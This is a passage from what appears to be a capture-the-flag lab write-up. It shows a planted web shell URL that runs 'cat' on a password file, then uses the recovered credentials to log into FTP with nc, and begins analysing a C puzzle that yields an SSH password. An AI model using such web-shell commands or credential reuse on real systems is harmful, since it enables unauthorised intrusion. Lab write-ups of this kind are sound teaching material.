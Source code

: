 It contains a file named `password` which contains `lmezard:G!@M6f4Eatau{sF"`:

https://10.11.100.56/forum/templates_c/exec.php?c=cat%20-e%20/home/LOOKATME/password
```html
lmezard:G!@M6f4Eatau{sF"$
```

When trying this password in some services it turns out that this is an `ftp` account.
```bash
$ nc 10.11.100.56 21
220 Welcome on this server
USER lmezard
331 Please specify the password.
PASS G!@M6f4Eatau{sF"
230 Login successful.
```

# Exploit ftp

Once connected to ftp using above creditentiels we found that the root contains a `README` file and an other file named
`fun`. The readme file invites us to complete the challenge related to the other file to get `laurie` ssh password.

The file contains a lot of lines that looks like C code, the most interestng part of it is:
```C
int main() {
	printf("M");
	printf("Y");
	printf(" ");
	printf("P");
	printf("A");
	printf("S");
	printf("S");
	printf("W");
	printf("O");
	printf("R");
	printf("D");
	printf(" ");
	printf("I");
	printf("S");
	printf(":");
	printf(" ");
	printf("%c",getme1());
	printf("%c",getme2());
	printf("%c",getme3());
	printf("%c",getme4());
	printf("%c",getme5());
	printf("%c",getme6());
	printf("%c",getme7());
	printf("%c",getme8());
	printf("%c",getme9());
	printf("%c",getme10());
	printf("%c",getme11());
	printf("%c",getme12());
	printf("\n");
	printf("Now SHA-256 it and submit");
}
```
and after looking at the functions `getmeX()`, only `getme8()` to `getme12()` has correct return value, so we need to find
what should be the return value of the remaining functions.
